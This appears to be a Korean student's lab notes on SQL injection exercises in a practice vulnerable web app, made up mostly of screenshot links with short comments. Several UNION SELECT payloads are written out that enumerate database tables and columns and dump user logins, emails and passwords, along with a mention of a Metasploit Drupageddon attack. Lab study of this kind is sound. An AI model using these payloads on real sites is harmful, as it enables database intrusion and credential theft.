 # SQL_Injection(GET/Search)
---
![[Pasted image 20241010142112.png]]
- spider를 입력하면 나오는 결과
![[Pasted image 20241010142145.png]]
![[Pasted image 20241010142202.png]]
- 잘못된 구문에도 일일이 반응한다.
![[Pasted image 20241010142253.png]]
![[Pasted image 20241010142313.png]]
## union select
![[Pasted image 20241010142503.png]]
- 칼럼 순서를 확인할 수 있다.
![[Pasted image 20241010142620.png]]
```
'union select 1,database(),@@datadir,system_user(),@@version,6,7#
```
![[Pasted image 20241010142850.png]]
- 칼럼에 원하는 정보를 출력하도록 명령어를 삽입할 수 있다.

```
'union select 1,table_name,3,4,5,6,7 from information_schema.tables#
```
![[Pasted image 20241010143205.png]]

```
'union select 1,column_name,3,4,5,6,7 from information_schema.columns#
```
![[Pasted image 20241010143506.png]]

```
0'union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name="users"#
```
![[Pasted image 20241010143813.png]]

```
0'union select 1,id,login,email,password,6,7 from users#
```
![[Pasted image 20241010144049.png]]

medium
![[Pasted image 20241010144349.png]]
= 구문 뒤에 \\를 통해 sql 구문을 일반 문자열로 인식되도록 한다.


# SQL Injection (GET/Select)
---
![[Pasted image 20241010144726.png]]


# SQL Injection (AJAX/JSON/jQuery)
---
AJAX: Asynchronous JavaScript and XML(비동기 자바스크립트 xml)
![[Pasted image 20241010151347.png]]
- 아무 반응이 없다.
![[Pasted image 20241010151531.png]]

# SQL Injection (Login Form/Hero)
---
![[Pasted image 20241010151738.png]]![[Pasted image 20241010151807.png]]
![[Pasted image 20241010151830.png]]
-
```
' union select 1,2,3,4#
```
![[Pasted image 20241010151924.png]]

-
```
' union select 1,@@version,3,system_user()#
```
![[Pasted image 20241010152323.png]]

# SQL Injection (Login Form/User)
---

# SQL Injection (SQLite)
---
![[Pasted image 20241010152538.png]]
![[Pasted image 20241010152640.png]]![[Pasted image 20241010152655.png]]
![[Pasted image 20241010153021.png]]
딱히 보여주는 정보는 없다.

![[Pasted image 20241010153121.png]]
![[Pasted image 20241010153110.png]]![[Pasted image 20241010153341.png]]
![[Pasted image 20241010153326.png]]

# Drupal SQL Injection (Drupageddon)
![[Pasted image 20241010153555.png]]
## 메타익스플로잇
![[Pasted image 20241010154456.png]]
![[Pasted image 20241010154601.png]]
![[Pasted image 20241010154658.png]]
![[Pasted image 20241010155001.png]]
![[Pasted image 20241010155052.png]]
[[meterpreter]]

## Self


# SQL Injection - Stored (User-Agent)
---
![[Pasted image 20241010162459.png]]
다운로드시 proxy tool로 주고 받는 파라미터에 sql 인젝션 시도

# SQL Injection - Stored (XML)
---
![[Pasted image 20241010162628.png]]